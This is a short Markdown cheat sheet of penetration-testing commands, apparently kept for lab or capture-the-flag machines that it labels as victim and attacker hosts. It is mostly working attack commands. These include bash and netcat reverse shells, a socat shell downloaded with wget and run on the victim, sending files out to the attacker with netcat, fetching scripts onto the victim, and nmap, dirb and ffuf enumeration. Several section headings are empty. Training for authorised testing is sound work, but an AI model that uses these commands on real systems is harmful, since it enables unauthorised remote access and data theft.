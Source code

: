 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

## Useful Commands

### Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

### Reverse shells

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

* #### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

* #### FuFF

VHOST Discovery

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.77/ -H "Host:FUZZ.10.10.10.77"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
